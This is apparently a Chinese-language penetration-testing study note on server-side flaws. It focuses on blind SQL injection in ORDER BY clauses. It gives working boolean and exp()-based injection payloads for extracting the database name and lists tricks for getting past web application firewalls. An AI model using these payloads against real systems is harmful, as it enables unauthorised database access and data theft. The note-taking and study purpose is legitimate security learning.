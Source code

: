 php或者java等后端代码的配置不当或者缺陷
sql注入，xxe，ssrf
是在服务器上触发点，用户的输入导致服务器处理不当

https://mp.weixin.qq.com/s/wE8OXwv6I_tdLQJDuzG1WQ
广：sqlmap不要用，基本上很难跑出来
看这篇文章，sql注入一定还存在，只不过输入的地方不一样，可控的地方和过数据库的地方还是很多的
一般都是布尔判断和时间去注入判断，基本很少union直接注入了
测的时候你感觉有注入就去测一下
本地调试猜测

orderby的地方很可能有注入
```
select * from user where id='1' order by username desc,1
```
后面那个1，改为0看看有没有不同的响应
开始猜
```
select * from user where id='1' order by username desc,ascii(database())>1
```


==sql注入绕waf==
1. 注释（不太行了）
2. 四则运算
3. 替换函数
4. 云waf
2.select 1/1    select 1/0  可以出现一个true或false的情况
比如说上面的ascii函数可以换成ord函数，作用一样
```
select * from user where id='1' order by username desc,(ascii(database())>1)
```
也可以简单的使用exp函数，这是指数函数，一般exp(1)正常，exp(710-(写上你的布尔表达式))
```SQL
select * from user where id='1' order by username and exp(710-(ascii(substr(database(),3,1))>120))
#就这样构造进行布尔判定跑数据，四则运算的目的就是构造布尔值
```

